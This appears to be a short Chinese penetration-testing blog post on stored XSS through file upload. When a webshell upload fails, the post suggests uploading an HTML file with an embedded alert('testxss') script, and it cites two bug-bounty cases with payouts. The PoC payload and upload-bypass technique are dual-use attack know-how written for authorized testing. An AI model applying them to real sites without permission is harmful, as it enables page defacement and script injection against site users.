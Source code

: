 ```yaml
---
title: 【渗透测试】文件上传html嵌套xss语句
date: 2025-09-12
categories:
  - 渗透测试
image: images/66.webp
---
```

# 0x01 漏洞描述
在我们文件上传的时候很有很可能会遇见无法上传马子的情况，我相信很多人在这个时候都会直接不管这一个上传点，然后在企业src里面这样的上传点可以试试上传一个html文件配合xss语句，导致一个挂黑页弹窗的危害，在众测里面达到了中危的标准
# 0x02 漏洞测试工具
Burp  html配合xss语句的文件
```go
<!DOCTYPE html>  
<html>  
<head>  
<title></title>  
<meta charset="utf-8">  
<script type="text/javascript">  
alert("testxss");  
</script>  
</head>  
<body>

  
</body>  
</html>
```
# 0x03 漏洞点及测试方法
漏洞点：存在文件上传的地方
测试方法： 在文件上传的时候上传Html嵌套xss语句
# 0x04 案例1
一次的众测活动中，看见一个营业职照的上传点，能上传马子但是不解析，于是随手改为html上传成功。赏金（800r)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250912151103.png)
# 0x04 案例2
## 某src的文件上传xss（赏金100r）
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250912151140.png)
同样的在页面找到文件上传的地方
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250912151148.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250912151153.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250912151159.png)
